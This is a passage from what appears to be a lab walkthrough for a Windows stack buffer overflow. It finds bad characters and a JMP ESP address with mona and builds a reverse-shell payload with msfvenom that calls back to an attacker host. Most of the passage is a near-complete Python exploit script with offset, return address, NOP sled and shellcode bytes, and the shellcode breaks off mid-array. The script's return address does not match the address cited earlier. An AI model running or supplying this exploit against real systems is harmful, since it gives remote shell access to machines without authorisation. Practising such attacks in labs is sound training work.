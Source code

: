 Result: Bad characters identified: `\x00`, `\x0a`
Repeat the process, excluding each new bad character, until Mona returns "Unmodified".

#### 8. Find a `JMP ESP` address

Search for a `JMP ESP` instruction in a module with **ASLR** and **SafeSEH** disabled:

```
!mona jmp -r esp -cpb "\x00\x0a"
```

Copy the safe JMP address found (e.g., `0x625011af`).

#### 9. Generate shellcode with `msfvenom`

Create a reverse shell payload, excluding the bad characters:

```
msfvenom -p windows/shell_reverse_tcp LHOST=LPORT=4444 -b "\x00\x0A" -f c -e x86/shikata_ga_nai
```

#### 10. Build the final exploit

#### 11. Launch the attack.



Here's the final script you should have, 

```python
#!/usr/bin/env python3

import socket

# Target configuration
ip = "10.10.145.109" # Change with TARGET IP
port = 31337

# Exploit parameters
prefix = "" # Command prefix
offset = 146 # Offset to EIP
overflow= "A" * offset # Filler to reach EIP
retn = "\xc3\x14\x04\x08" # Return address: jmp esp (little endian)
padding = "\x90" * 16 # NOP sled

# Shellcode: msfvenom generated payload, do it with: msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
payload = (
 "\xda\xc1\xba\xb2\xb0\xc7\x8a\xd9\x74\x24\xf4\x5d\x33\xc9"
 "\xb1\x52\x31\x55\x17\x03\x55\x17\x83\x77\xb4\x25\x7f\x8b"
 "\x5d\x2b\x80\x73\x9e\x4c\x08\x96\xaf\x4c\x6e\xd3\x80\x7c"
 "\xe4\xb1\x2c\xf6\xa8\x21\xa6\x7a\x65\x46\x0f\x30\x53\x69"
 "\x90\x69\xa7\xe8\x12\x70\xf4\xca\x2b\xbb\x09\x0b\x6b\xa6"
 "\xe0\x59\x24\xac\x57\x4d\x41\xf8\x6b\xe6\x19\xec\xeb\x1b"
 "\xe9\x0f\xdd\x8a\x61\x56\xfd\x2d\xa5\xe2\xb4\x35\xaa\xcf"
 "\x0f\xce\x18\xbb\x91\x06\x51\x44\x3d\x67\x5d\xb7\x3f\xa0"
 "\x5a\x28\x4a\xd8\x98\xd5\x4d\x1f\xe2\x01\xdb\xbb\x44\xc1"
 "\x7b\x67\x74\x06\x1d\xec\x7a\xe3\x69\xaa\x9e\xf2\xbe\xc1"
 "\x9b\x7f\x41\x05\x2a\x3b\x66\x81\x76\x9f\x07\x90\xd2\x4e"
 "\x37\xc2\xbc\x2f\x9d\x89\x51\x3b\xac\xd0\x3d\x88\x9d\xea"
 "\xbd\x86\x96\x99\x8f\x09\x0d\x35\xbc\xc2\x8b\xc2\xc3\xf8"
 "\x6c\x5c\x3a\x03\x8d\x75\xf9\x57\xdd\xed\x28\xd8\xb6\xed"
 "\xd5\x0d\x18\xbd\x79\xfe\xd9\x6d\x3a\xae\xb1\x67\xb5\x91"
 "\xa2\x88\x1f\xba\x49\x73\xc8\xcf\x83\x6e\x14\xb8\x99\x90"
 "\x35\x64\x17\x76\x5f\x84\x71\x21\xc8\x3d\xd8\xb9\x69\xc1"
 "\xf6\xc4\xaa\x49\xf5\x39\x64\xba\x70\x29\x11\x4a\xcf\x13"
 "\xb4\x55\xe5\x3b\x5a\xc7\x62\xbb\x15\xf4\x3c\xec\x72\xca"
 "\x34\x78\x6f\x75\xef\x9e\x72\xe3\xc8\x1a\xa9\xd0\xd7\xa3"
 "\x3c\x6c\xfc\xb3\xf8\x6d\xb8\xe7\x54\x38\x16\x51\x13\x92"
```